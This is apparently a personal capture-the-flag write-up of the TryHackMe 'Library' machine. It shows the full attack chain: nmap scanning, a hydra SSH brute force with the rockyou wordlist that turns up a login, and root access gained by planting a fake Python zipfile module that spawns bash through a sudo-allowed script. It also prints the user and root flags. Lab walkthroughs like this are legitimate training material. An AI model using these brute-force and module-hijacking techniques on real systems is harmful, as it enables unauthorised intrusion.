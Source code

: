 ## Nmap

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c42fc34767063204ef92918e0587d5dc (RSA)
|   256 689213ec9479dcbb7702da99bfb69db0 (ECDSA)
|_  256 43e824fcd8b8d3aac248089751dc5b7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP

So after visiting the website i tried web directory brute forcing using all possible and every tool in know because i was not able to find anythin usefull

there was on entry on /robots.txt file which said 

user agent: rockyou

and i thought i was supposed to put "User Agent Header as words in rock you wordlist"


so i used

```
[parrot]─[01:11-30/06]─[/home/glack/Desktop/THM]
└╼glack$ffuf -w /usr/share/wordlists/rockyou.txt:FUZZ -u http://10.10.72.247/ -H 'User-Agent:FUZZ' -fs 5439
```

And i was wrong after checking the writeup i realised and missed the easy username on the website


## SSH

After which I bruteforced ssh using hydra

```
[parrot]─[02:56-30/06]─[/home/glack/Desktop/THM]
└╼glack$hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.10.137.2 ssh
```

```
22][ssh] host: 10.10.137.2   login: meliodas   password: iloveyou1
```

And i got the password


user.txt

```
6d488cbb3f111d135722c33cb635f4ec
```


## Priv ESC

so the answere to priv esc for with

```
sudo -l


/usr/bin/python /home/meliodas/bak.py 
```

So I got stuck here again as i didnt completely uderstood the python code and used the writeup here

https://r4bb1t.medium.com/library-write-up-7dd5d5c5a9eb


So all we had to do was create another file here with the contents as below

```
import os  
  
ZIP_DEFLATED = 1  
  
def ZipFile(param1, param2, param3):  
        print(os.system('/bin/bash'))
```

and run the sudo command again


```
meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py 
root@ubuntu:~# 

```

And we get Root

```
e8c8c6c256c35515d1d344ee0488c617
```